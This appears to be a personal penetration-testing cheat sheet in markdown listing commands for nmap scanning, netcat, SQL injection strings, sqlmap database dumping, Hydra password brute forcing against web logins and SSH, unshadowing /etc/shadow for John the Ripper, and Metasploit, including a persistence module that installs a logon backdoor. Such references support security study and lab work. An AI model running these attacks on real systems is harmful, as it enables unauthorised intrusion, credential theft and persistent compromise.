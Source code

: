 
### Telent :

> - telent hostName portNumber

&nbsp;
### SSH

>- ssh usernmae@hostname -p portNumber -i ssh_key_file
    
>- ssh username@hostName -p portNumber 
    
>-  ssh userName@hostName -t /bin/sh -p portNumber  --> log with out .bashrc file  
    
    
&nbsp;       
    
### OpenSSL:

> - openssl s_client -connect hostName:portNumber
    
&nbsp;

### Linux:
 
> - ls -ld .?*    ----> Show hidden files 


&nbsp;
### Nmap :

>-  nmap -sT IP_address             ----> TCP scan (active scanning), complete handshake
    
>-  namp -sS Ip_address            -----> Stealth scan(No logs), as the handshakes is NOT completed 
    
>-  nmap -sV IP_address           ------> probing services on the ports
    
>-  nmap -Pn IP_address           ------> scanning without sending pings 
    
>-  nmap -O IP_address           ------> scan with OS fingerprinting 
    
>-  nmap -A IP_address         --------> 
   
   
&nbsp;

### Netcat

>-  nc -l 1234

&nbsp;
### Manual SQL

>- ' and 1=1; -- -  | True returns something

>- ' and 1=2;-- -   | False does not return anything
 
>- ' or 1=1; -- - 

>- ' or 1=2; -- - 


### SQLmap 


>- sqlmap -u "URL" -- > qquick enumeration fro the URL


>- sqlmap -u "URL" -b --> get the banner 


>- sqlmap -u "URL" --tables --> to get the tables 

>-  sqlmap -u "URL" --dumps --> dumps all the database

&nbsp;

### Hydra:

> -  hydra targetWebsite http-post-form "/login.php:user=^USER^&pwd=^PASS^:invalid credentials" -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-15.txt  -f -v

&nbsp;
>  - hydra 192.168.2.4 ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-10.txt -f -v 

	
&nbsp;

	
### John

__Unshadow__

> - unshadow /etc/passwd /etc/shadow > hashes.txt 

> - john --wordlist=/usr/share/john/password.lst hashes

> - John --show hashes 


&nbsp;


### Metaploit:

### Searchsploit :

> - searchsploit nameofVuln OS_type
        
> - searchsolit rpc windows
            
> - searchsploit MS08-067 windows



### Metasploit :


> - search vlunerabilityName
        
> - search OSType
        
> - use pathof the exploit

> - show payloads

> - set payloads typeofPayload
        
> - set RHOST
        
> - set RPORT 
        
> - exploit

&nbsp;

### USing Metasploit with exploits:


__[s4u_persistence]                             |  install backdoor on meterpreter session using__ 

- use exploit/windows/local/s4u_persistence     |  module 

- show options                                  |  show options that come with the module 

- set trigger logon                             |  sets up the module to start when the usre logson 


- 
